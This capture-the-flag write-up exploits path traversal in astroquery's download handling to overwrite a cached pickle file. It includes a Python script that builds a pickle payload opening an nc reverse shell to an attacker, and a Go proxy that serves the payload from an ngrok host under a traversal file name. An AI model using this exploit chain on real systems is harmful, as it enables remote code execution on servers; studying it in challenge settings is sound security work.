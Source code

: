 # Astrology

We're given a website that allows us to query astronomical observations, and it's source code.

After analyzing the source code, we know that it's using `astropy` to query astronomical data given `ra`, `dec`, `r` and `archive` parameters. Then, it's saving readme files to `downloads` directory.

The `archive` parameter is user-controlled URL to a data archive. Initial idea is to pass attacker's URL which is compatible with Alma. For this reason, I made a simple proxy server in Go.

At first I thought to modify the `app.py` file, but that couldn't be an option, because that would break the challenge for all players.

Let's dig deeper into astropy's source code to find interesting stuff.

`download_files()` method sets the file name from `Content-Disposition` header, not preventing path traversal.

```py
filename = re.search("filename=(.*)", 
    check_filename.headers['Content-Disposition']).groups()[0]
```

When I enabled debug logging by setting `astroquery.log.setLevel('DEBUG')`, I noticed that after files are downloaded, the response is cached as `.pickle` in a writable directory.

```py
def to_cache(response, cache_file):
    log.debug("Caching data to {0}".format(cache_file))

    response = copy.deepcopy(response)
    if hasattr(response, 'request'):
        for key in tuple(response.request.hooks.keys()):
            del response.request.hooks[key]
    with open(cache_file, "wb") as f:
        pickle.dump(response, f, protocol=4)
```

The pickle file name is a hash of request params:
```py
    def hash(self):
        if self._hash is None:
            request_key = (self.method, self.url)
            for k in (self.params, self.data, self.json,
                      self.headers, self.files):
                if isinstance(k, dict):
                    entry = (tuple(sorted(k.items(),
                                          key=_replace_none_iterable)))
                    entry = tuple((k_, v_.read()) if hasattr(v_, 'read')
                                  else (k_, v_) for k_, v_ in entry)
                    for k_, v_ in entry:
                        if hasattr(v_, 'read') and hasattr(v_, 'seek'):
                            v_.seek(0)

                    request_key += entry
                elif isinstance(k, tuple) or isinstance(k, list):
                    request_key += (tuple(sorted(k,
                                                 key=_replace_none_iterable)),)
                elif k is None:
                    request_key += (None,)
                elif isinstance(k, str):
                    request_key += (k,)
                else:
                    raise TypeError("{0} must be a dict, tuple, str, or "
                                    "list".format(k))
            self._hash = hashlib.sha224(pickle.dumps(request_key)).hexdigest()
        return self._hash
```

We can find the hash of our payload file by running the app in docker and checking the logs.

That said, here are the steps required to solve this challenge:
- Create a pickle payload with reverse shell
- Create a proxy server in Go which replaces a single readme URL with attacker-controlled path that leads to the pickle payload
- The proxy server should return the pickle file on `/README.txt` path with filename set as `../../../home/appuser/.astropy/cache/astroquery/Alma/<hash>.pickle`
- Run the same query twice, with `archive` pointing to attacker's proxy server, and `re`, `dec` and `r` all set to `1`

gen-pickle.py:
```py
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('/bin/sh -i 2>&1 | nc ip port > /tmp/f')
        return os.system, (cmd,)


pickled = pickle.dumps(RCE())
with open('pickle', 'wb') as f:
    f.write(pickled)
```

proxy.go:
```go
package main

import (
	"bytes"
	"fmt"
	"io"
	"io/ioutil"
	"log"
	"net/http"
	"os"
	"regexp"

	"github.com/icholy/replace"
)

func handleHTTP(w http.ResponseWriter, req *http.Request) {
	body, err := ioutil.ReadAll(req.Body)
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		return
	}

	req.Body = ioutil.NopCloser(bytes.NewReader(body))

	fmt.Println(req.RequestURI)

	url := fmt.Sprintf("https://almascience.nrao.edu%s", req.RequestURI)

	proxyReq, err := http.NewRequest(req.Method, url, bytes.NewReader(body))

	proxyReq.Header = make(http.Header)
	for h, val := range req.Header {
		proxyReq.Header[h] = val
	}

	httpClient := http.Client{}
	resp, err := httpClient.Do(proxyReq)
	if err != nil {
		http.Error(w, err.Error(), http.StatusBadGateway)
		return
	}
	defer resp.Body.Close()

	for h, vals := range resp.Header {
		for _, val := range vals {
			if h != "Content-Length" {
				w.Header().Add(h, val)
			}
		}
	}

	myUrl := "https://....ngrok-free.app"

	r := replace.Chain(resp.Body,
		replace.String("https://almascience.nrao.edu/dataPortal/member.uid___A001_X8a5_X51.README.txt", myUrl+"/README.txt"),
		replace.String("https://almascience.nrao.edu", myUrl),
	)

	reg := regexp.MustCompile("[/+]")
	file, err := os.OpenFile("logs/"+reg.ReplaceAllString(req.URL.Path, "_"), os.O_CREATE, 0644)
	if err != nil {
		fmt.Println(err)
		return
	}

	writer := io.MultiWriter(w, file)
	_, err = io.Copy(writer, r)
	if err != nil {
		fmt.Println(err)
	}
}

func handleReadme(w http.ResponseWriter, r *http.Request) {
	w.Header().Add("Content-Disposition", "inline; filename=../../../home/appuser/.astropy/cache/astroquery/Alma/<hash>.pickle")
	w.Header().Add("Content-Type", "text/plain; charset=UTF-8")

    fileBytes, err := ioutil.ReadFile("pickle")
	if err != nil {
		panic(err)
	}

	w.Write(fileBytes)
}

func main() {
	http.HandleFunc("/", handleHTTP)
	http.HandleFunc("/README.txt", handleReadme)
	log.Fatal(http.ListenAndServe(":3333", nil))
}
```